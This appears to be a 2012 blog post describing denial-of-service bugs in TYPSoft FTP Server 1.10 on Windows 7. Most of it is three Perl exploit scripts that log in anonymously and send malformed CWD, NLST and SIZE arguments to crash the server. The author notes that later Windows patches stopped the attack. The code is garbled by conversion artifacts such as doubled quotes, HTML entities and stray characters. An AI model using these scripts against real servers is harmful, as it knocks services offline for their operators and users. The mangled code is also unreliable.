 ```yaml
---
layout: post
title: "TYPSoft FTP"
date: 2012-02-07
excerpt_separator: <!--more-->
---
```


During my introduction to exploit development I started work on a small FTP server, see what I can find. What I found is fairly interesting; couple commands resulted in a Denial-of-Service condition under Win 7 x32 and x64. At the time of my research I have been unable to shove some shell code, jump etc into the thing. Time past and I got busy, so it is might still be there.

TL;DR

* TypSoft FTP Server 1.10 (http://sourceforge.net/projects/ftpserv/)
* Requires valid login to exploit
* Affected commands: CWD, NLST, SIZE
* http://www.exploit-db.com/exploits/18469/
* OSVDB-ID: 80913
* Win 7 only
* Update: Recent Win 7 patches in around 2018 fixed the issues and DoS doesn't seems to work. Oops...
<!--more>

**CWD Variant**
{% highlight perl %}
\>##################################################
\#!/usr/bin/perl
\# Exploit Title: Typsoft FTP Server DoS CWD command
\# Date: 02/06/2012
\# Author: Balazs Makany
\# Software Link: http://sourceforge.net/projects/ftpserv/
\# Version: 1.10
\# Tested on: Windows 7
\# (does not work on Windows XP)
\#
\# Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
\#

use IO::Socket;

$user = ""USER anonymous\r\n"";
$passw = ""PASS anonymous@127.0.0.1\r\n"";
$command = ""CWD "";
$dos_input = "".""x250;
$send = ""\r\n"";
$socket = IO::Socket::INET-&gt;new(
Proto => ""tcp"",
PeerAddr => ""$ARGV[0]"",
PeerPort => ""$ARGV[1]"",
);

$socket->recv($serverdata, 1024);
print $serverdata;

$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

{% endhighlight %}

**NLST Variant**
>#!/usr/bin/perl
># Exploit Title: Typsoft FTP Server DoS NLST command
># Date: 02/06/2012
># Author: Balazs Makany
># Software Link: http://sourceforge.net/projects/ftpserv/
># Version: 1.10
># Tested on: Windows 7 
># (does not work on Windows XP)
>#
># Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
>#
>
>use IO::Socket;
>
$user = ""USER anonymous\r\n"";
$passw = ""PASS anonymous@127.0.0.1\r\n"";
$command = ""NLST "";
$dos_input = ""/.../.../.../.../.../"";
$send = ""\r\n"";
$socket = IO::Socket::INET-&gt;new(
Proto =>; ""tcp"",
PeerAddr => ""$ARGV[0]"",
PeerPort => ""$ARGV[1]"",
);
>
$socket->recv($serverdata, 1024);
print $serverdata;
>
$socket->send($user);
$socket->recv($serverdata, 1024);
$socket->send($passw);
$socket->recv($serverdata, 1024);
$socket->send($command.$dos_input.$send);

**SIZE variant**
>#!/usr/bin/perl
># Exploit Title: Typsoft FTP Server DoS SIZE command
># Date: 02/06/2012
># Author: Balazs Makany
># Software Link: http://sourceforge.net/projects/ftpserv/
># Version: 1.10
># Tested on: Windows 7
># (does not work on Windows XP)
>#
># Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
>#
>
use IO::Socket;
>
$user = ""USER anonymous\r\n"";
$passw = ""PASS anonymous@127.0.0.1\r\n"";
$command = ""SIZE "";
$dos_input = ""/.../.../.../.../.../"";
$send = ""\r\n"";
$socket = IO::Socket::INET-&gt;new(
Proto =&gt; ""tcp"",
PeerAddr =&gt; ""$ARGV[0]"",
PeerPort =&gt; ""$ARGV[1]"",
);
>
$socket-&gt;recv($serverdata, 1024);
print $serverdata;
>
$socket-&gt;send($user);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($passw);
$socket-&gt;recv($serverdata, 1024);
$socket-&gt;send($command.$dos_input.$send);
